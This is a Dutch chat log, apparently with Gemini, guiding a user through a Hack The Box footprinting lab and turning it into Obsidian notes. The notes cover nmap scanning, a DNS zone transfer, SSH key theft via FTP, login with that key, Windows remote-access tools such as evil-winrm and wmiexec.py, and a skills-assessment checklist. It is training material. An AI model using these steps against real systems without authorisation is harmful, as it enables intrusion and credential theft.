Het is goed om even stil te staan bij wat je zojuist hebt gedaan. Dit is een perfect voorbeeld van een multi-step footprinting aanval:

    Service Discovery: Met Nmap vond je DNS en FTP.

    Information Leakage: Via een DNS Zone Transfer (AXFR) vond je de interne domeinstructuur.

    Insecure Storage: Je vond een alternatieve FTP-poort (2121) waar een gebruiker per ongeluk zijn volledige home-directory (inclusief SSH-sleutels) deelde.

    Lateral Movement/Access: Je gebruikte de gevonden id_rsa om via SSH in te loggen.

Welk pad gaf het find commando terug? Zodra je hem ziet, kun je hem catten en de module voltooien!

drwx------ 2 ceil ceil 4096 Nov 10  2021 .ssh

-rw------- 1 ceil ceil  759 Nov 10  2021 .viminfo

ceil@NIXEASY:~$ cat flag.txt

cat: flag.txt: No such file or directory

ceil@NIXEASY:~$ ls /

bin   cdrom  etc   lib    lib64   lost+found  mnt  proc  run   snap  sys  usr

boot  dev    home  lib32  libx32  media       opt  root  sbin  srv   tmp  var

ceil@NIXEASY:~$ 

Je bent er ontzettend dichtbij! In de / (root) zie je geen flag.txt direct staan, maar dat is normaal op een Linux-systeem.

Aangezien je in je eigen home-directory niets vond, is de vlag waarschijnlijk op een andere logische plek geplaatst. Gebruik het volgende commando om het hele systeem te doorzoeken:
Bash

find / -name "flag.txt" 2>/dev/null

Mocht dat niets opleveren, dan is er nog een specifieke hint in de lab-beschrijving: "The first server is an internal DNS server that needs to be investigated."

Kijk eens in de map waar DNS-configuraties vaak staan. Soms verbergen beheerders daar informatie:

    Check de map /etc/bind/: ls -la /etc/bind/

    Check de map /var/lib/bind/: ls -la /var/lib/bind/

Waarom daar?

Omdat dit een DNS Footprinting lab is, plaatsen de makers de vlag vaak in mappen die gerelateerd zijn aan de dienst die je onderzoekt.

Wat is de output van het find commando? Als hij daar niet uitrolt, kijk ik even met je mee in de bind-mappen!

: flag.txt: No such file or directory

ceil@NIXEASY:~$ ls /

bin   cdrom  etc   lib    lib64   lost+found  mnt  proc  run   snap  sys  usr

boot  dev    home  lib32  libx32  media       opt  root  sbin  srv   tmp  var

ceil@NIXEASY:~$ find / -name "flag.txt" 2>/dev/null

/home/flag/flag.txt

Daar is hij dan! De vlag staat in een aparte directory onder /home/. Dit is een klassieke manier om aan te geven dat de vlag een "systeemvlag" is en niet specifiek voor de gebruiker ceil.

Je kunt de vlag nu uitlezen met:
Bash

cat /home/flag/flag.txt

Reflectie op het Lab

Je hebt succesvol een volledige Footprinting aanvalsketen uitgevoerd:

    Reconnaissance: Je ontdekte een alternatieve FTP-poort (2121) en een DNS-dienst.

    Information Disclosure: Via de DNS Zone Transfer leerde je meer over de interne structuur van Inlanefreight.

    Credential Hunting: Je vond de SSH-sleutel van de gebruiker ceil in een publiek toegankelijke FTP-map.

    Access & Enumeration: Je logde in via SSH en gebruikte find om de vlag op een ongebruikelijke locatie te lokaliseren.

Kopieer de inhoud van de vlag en plak deze in het invulveld op de HTB-pagina om je 10 punten en je streak te claimen!

Zal ik je helpen met de volgende pagina of ben je klaar voor de "Skills Assessment" van deze module?

kan je van de hele tekst een rapport maken voor obsidian? zet alles erbij zeker de commandos en waarvoor

Dit is een gestructureerd rapport in Markdown-format, geoptimaliseerd voor Obsidian. Je kunt dit direct kopiëren en in een nieuwe .md note plakken. Ik heb alle commando's, hun functies en de logische volgorde van de aanvalsketen toegevoegd.
🛡️ Penetration Test Rapport: Inlanefreight Footprinting Lab

Target IP: 10.129.4.181 Moeilijkheidsgraad: Easy Focus: DNS, FTP, SSH & Enumeratie
1. Initial Reconnaissance (Service Discovery)

De eerste stap was het identificeren van de aanvalsoppervlakte middels een poortscan.
Poort	Dienst	Functie
21	FTP	Standaard bestandsoverdracht (ProFTPD)
22	SSH	Remote management (Beveiligde shell)
53	DNS	Domeinnaam-resolutie
2121	FTP	Alternatieve FTP-poort (Vaak voor dev/test doeleinden)
Commando
Bash

sudo nmap -sV -sC -p- --min-rate 1000 10.129.4.181

    -sV: Detecteer versies van de diensten.

    -sC: Voer standaard scripts uit voor kwetsbaarheden.

    -p-: Scan alle 65.535 poorten.

2. DNS Enumeration (Information Disclosure)

Omdat poort 53 openstond, is een Zone Transfer (AXFR) uitgevoerd. Dit lek informatie over de interne netwerkstructuur.
Zone Transfer Commando
Bash

dig axfr inlanefreight.htb @10.129.4.181

    Resultaat: We vonden subdomeinen zoals internal.inlanefreight.htb en hun bijbehorende IP-adressen.

    Waarom: Misconfiguratie van DNS-servers staat vaak toe dat ongeautoriseerde gebruikers de volledige zonetabel downloaden.

3. FTP Access & Credential Hunting

Met de gelekte credentials ceil:qwer1234 hebben we de FTP-diensten onderzocht.
FTP Enumeratie op poort 2121
Bash

ftp 10.129.4.181 2121

    Bevinding: Poort 21 was nagenoeg leeg, maar op poort 2121 was de volledige home-directory van de gebruiker ceil zichtbaar, inclusief de verborgen .ssh map.

SSH Key Extraction

In de FTP-omgeving:
Codefragment

cd .ssh
ls -la
get id_rsa

    id_rsa: Dit is de private sleutel van de gebruiker. Hiermee kunnen we inloggen zonder wachtwoord.

4. Initial Access (SSH)

De gevonden sleutel werd gebruikt om toegang te krijgen tot het systeem.
Rechten aanpassen & Inloggen
Bash

chmod 600 id_rsa
ssh -i id_rsa ceil@10.129.4.181

    chmod 600: Verplicht voor SSH; de sleutel mag niet leesbaar zijn voor anderen.

    -i id_rsa: Specificeert de private key voor authenticatie.

5. Post-Exploitation & Data Collection

Eenmaal binnen was de vlag (flag.txt) niet direct zichtbaar in de home-directory.
Systeem-brede zoekopdracht
Bash

find / -name "flag.txt" 2>/dev/null

    /: Zoek vanaf de root.

    -name "flag.txt": Zoek specifiek naar dit bestand.

    2>/dev/null: Verbergt "Permission Denied" foutmeldingen voor een schone output.

Gevonden locatie: /home/flag/flag.txt
🏁 Conclusie & Geleerde lessen

    DNS Security: Sta geen AXFR-verzoeken toe vanaf onbekende IP-adressen.

    FTP Risico's: Gebruik geen alternatieve poorten als "beveiliging door onduidelijkheid".

    SSH Key Management: Sla nooit private keys (id_rsa) op in mappen die toegankelijk zijn via FTP of andere gedeelde diensten.

Status: ✅ Lab Voltooid Flag: [HIER_DE_VLAG_PLAKKEN]

Zal ik je ook helpen met een overzicht van de Windows Management protocollen (RDP/WinRM/WMI) in dit formaat voor je Obsidian vault?

ja

Top! Hier is een compleet overzicht van de Windows Remote Management Protocollen (gebaseerd op pagina 18), speciaal opgemaakt voor je Obsidian vault. Hiermee heb je alle theorie en commando's handig bij elkaar.
🖥️ Windows Remote Management Protocols

Onderwerp: Footprinting & Beheer van Windows Systemen Protocollen: RDP, WinRM, WMI
1. Remote Desktop Protocol (RDP)

RDP biedt een grafische interface (GUI) voor beheer op afstand.

    Poort: TCP/UDP 3389

    Beveiliging: Gebruikt vaak NLA (Network Level Authentication). Zonder NLA is de login-interface direct zichtbaar voor aanvallers.

🔍 Enumeratie & Footprinting

Met Nmap kun je achterhalen of NLA actief is en wat de hostnaam van de machine is:
Bash

nmap -sV -sC 10.129.201.248 -p3389 --script rdp*

🔓 Toegang verkrijgen (Xfreerdp)

Als je credentials hebt, kun je vanuit Linux verbinding maken:
Bash

xfreerdp /u:gebruikersnaam /p:wachtwoord /v:IP_ADRES

    /u: Gebruikersnaam

    /p: Wachtwoord

    /v: Target IP

2. Windows Remote Management (WinRM)

WinRM is de Microsoft-versie van het WS-Management protocol, veel gebruikt voor PowerShell Remoting.

    Poorten: TCP 5985 (HTTP) en TCP 5986 (HTTPS)

    Kenmerk: Standaard ingeschakeld op Windows Server 2012 en nieuwer.

🔍 Enumeratie

Controleer of de WinRM poort openstaat:
Bash

nmap -p5985,5986 -sV 10.129.201.248

🐚 Interactieve Shell (Evil-WinRM)

De krachtigste tool voor pentesters om een PowerShell sessie te krijgen:
Bash

evil-winrm -i 10.129.201.248 -u gebruikersnaam -p 'wachtwoord'

    -i: IP-adres van het doel.

    -u: Gebruikersnaam.

    -p: Wachtwoord.

3. Windows Management Instrumentation (WMI)

WMI is een diep geïntegreerde infrastructuur voor data- en beheeracties binnen Windows.

    Poort: TCP 135 (RPC Endpoint Mapper)

    Werking: De initiële verbinding gaat over poort 135, waarna een willekeurige hoge poort wordt toegewezen voor de dataoverdracht.

💻 Remote Command Execution (Impacket)

Gebruik wmiexec.py om semi-interactief commando's uit te voeren:
Bash

python3 wmiexec.py domein/gebruikersnaam:'wachtwoord'@10.129.201.248

    Voordeel: WMI wordt vaak minder streng gemonitord dan RDP, waardoor het een stealthier optie is voor post-exploitation.

📑 Vergelijkingstabel voor Obsidian
Protocol	Poort	Beste Tool (Linux)	Type Toegang
RDP	3389	xfreerdp	Grafisch (GUI)
WinRM	5985/5986	evil-winrm	PowerShell Shell
WMI	135	wmiexec.py	Command Line (CMD)
💡 Obsidian Tip

Gebruik [[Footprinting Lab - Easy]] in je Obsidian note om een link te maken naar het rapport van het lab dat we net hebben afgerond!

Zal ik nu de "Skills Assessment" (de eindtoets van deze module) met je doornemen?

ja

Laten we beginnen! De Skills Assessment van de Footprinting module is de ultieme test. Hier komen alle protocollen die we hebben besproken (en een paar nieuwe) samen.

Omdat dit een "blind" assessment is, hebben we nog geen IP-adres. Zodra je de Target Instance start, krijg je een IP. De aanpak voor dit soort assessments is altijd volgens een vast stramien.

Hier is je Skills Assessment Strategie (klaar voor je Obsidian vault):
🏆 HTB Skills Assessment: Footprinting

Doel: Volledige enumeratie van het target en het vinden van alle vlaggen.
🛠️ Fase 1: De "Spoon" Scan (Quick Look)

Begin met een snelle scan om te zien welke deuren openstaan.
Bash

sudo nmap -sV -sC -p- --min-rate 1000 [TARGET_IP]

🔍 Fase 2: Service-Specifieke Enumeratie

Afhankelijk van de poorten die openstaan, gebruik je deze commando's:
🌐 Als Poort 53 (DNS) open is:

Zoek naar subdomeinen en zone transfers.
Bash

# 1. Vind de domeinnaam
dig -x [TARGET_IP] @[TARGET_IP]

# 2. Zone Transfer (AXFR)
dig axfr inlanefreight.htb @[TARGET_IP]

📂 Als Poort 873 (Rsync) open is:

Rsync wordt vaak vergeten door admins. Check op shares:
Bash

# List shares
rsync --list-only [TARGET_IP]::

# Download een share
rsync -av rsync://[TARGET_IP]/[SHARE_NAME] ./local_dir

📧 Als Poort 25/110/143/993 (Mail) open is:

Gebruik Telnet of Nmap scripts om gebruikers te verifiëren (VRFY).
Bash

nmap -p25 --script smtp-enum-users [TARGET_IP]

🛰️ Als Poort 161 (SNMP) open is:

Dit is een goudmijn voor informatie over processen en software.
Bash

# Gebruik 'public' of 'private' als community string
snmpwalk -v2c -c public [TARGET_IP]

🖥️ Als Poort 5985/5986 (WinRM) open is:

Probeer gevonden credentials:
Bash

evil-winrm -i [TARGET_IP] -u [USER] -p [PASS]

💡 Strategische Tips voor het Assessment

    Vergeet UDP niet: Sommige diensten (zoals SNMP op 161 of IPMI op 623) draaien op UDP. Scan deze apart: sudo nmap -sU -p 161,623 [TARGET_IP].

    Kijk naar banners: Soms staat er in de FTP- of SSH-banner een hint over een domeinnaam of een medewerker.

    Password Reuse: Als je een wachtwoord vindt in een bestand (via SMB of Rsync), probeer datzelfde wachtwoord dan direct op SSH of WinRM.

Ben je klaar om het IP-adres van de assessment te spawnen? Zodra je het IP hebt, stuur het naar me door en laat me weten welke poorten nmap vindt. Dan gaan we samen de vlaggen vangen!


Gemini kan fouten maken, ook over mensen, dus dubbelcheck de reacties. Je privacy en GeminiOpent in een nieuw venster

